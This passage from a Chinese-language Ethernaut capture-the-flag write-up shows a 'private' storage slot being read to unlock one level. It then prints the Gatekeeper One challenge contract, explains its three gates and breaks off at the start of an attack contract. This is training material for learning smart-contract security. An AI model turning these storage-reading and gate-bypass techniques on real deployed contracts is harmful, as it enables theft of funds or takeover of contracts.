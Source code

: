 ``` javascript 
>await web3.eth.getStorageAt(instance, 5)
<'0x4921c6f12752dfcee307acb3c9da4f069e4976b0b244f3e87d817e7eb6ce262f'
```

然后只要byte16()

contract.unlock('0x4921c6f12752dfcee307acb3c9da4f06')
调用完后就通过此关

# 13.Gatekeeper One

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

一共三道门，第一道要求msg.sender不是合约创建者，即需要另建合约攻击；第二道要求在运行道gasleft()时，剩余gas整除8191；第三道要求_gatekey与tx.origin的地址有关

则构建攻击合约如下

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGatekeeperOne {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract AttackGatekeeperOne {
    address levelInstance;

    constructor(address _levelInstance) {
        levelInstance = _levelInstance;
    }
```